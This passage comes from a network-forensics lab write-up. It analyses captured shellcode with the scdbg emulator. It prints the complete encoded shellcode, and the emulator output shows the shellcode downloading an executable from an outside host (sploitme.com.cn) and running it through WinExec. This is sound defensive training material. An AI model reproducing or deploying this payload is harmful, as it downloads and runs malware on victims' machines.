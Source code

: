 
Here's the shellcode:

```c
%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u373D
```


Command 3:

```c
C:\Users\husky\Desktop\CCD_NetworkForensicsLabs\Windows>scdbg.exe /f com-shellcode
```


Output:

![](/assets/img/Pasted image 20240809140110.png)


Functions found in the shellcode analysis:

```c
401086  GetTempPathA(len=88, buf=12fd80) = 22
4010b0  LoadLibraryA(urlmon.dll)
4010ca  URLDownloadToFileA(http://sploitme.com.cn/fg/load.php?e=7, C:\Users\husky\AppData\Local\Temp\e.exe)
4010d7  WinExec(C:\Users\husky\AppData\Local\Temp\e.exe)
4010e0  ExitThread(0)
```


DLL dependencies:
Command->

```c
scdbg.exe /dllmap com-shellcode
```

![](/assets/img/Pasted image 20240809144211.png)

List of DLLs:

```c
kernel32 Dll mapped at 7c800000 - 7c8f6000  Version: 5.1.2600.5781
ntdll    Dll mapped at 7c900000 - 7c9b2000  Version: 5.1.2600.5755
ws2_32   Dll mapped at 71ab0000 - 71ac7000  Version: 5.1.2600.5512
iphlpapi Dll mapped at 76d60000 - 76d79000  Version: 5.1.2600.5512
user32   Dll mapped at 7e410000 - 7e4a1000  Version: 5.1.2600.5512
shell32  Dll mapped at 7c9c0000 - 7d1d7000  Version: 6.0.2900.6018
msvcrt   Dll mapped at 77c10000 - 77c68000  Version: 7.0.2600.5512
urlmon   Dll mapped at 78130000 - 78258000  Version: 7.0.6000.17096
wininet  Dll mapped at 3d930000 - 3da01000  Version: 7.0.6000.17093
shlwapi  Dll mapped at 77f60000 - 77fd6000  Version: 6.0.2900.5912
advapi32 Dll mapped at 77dd0000 - 77e6b000  Version: 5.1.2600.5755
shdocvw  Dll mapped at 7e290000 - 7e401000  Version: 6.0.2900.5512
psapi    Dll mapped at 76bf0000 - 76bfb000  Version: 5.1.2600.5512
imagehlp Dll mapped at 76c90000 - 76cb9000  Version: 5.1.2600.6479
winhttp  Dll mapped at 4d4f0000 - 4d549000  Version: 5.1.2600.6175
```
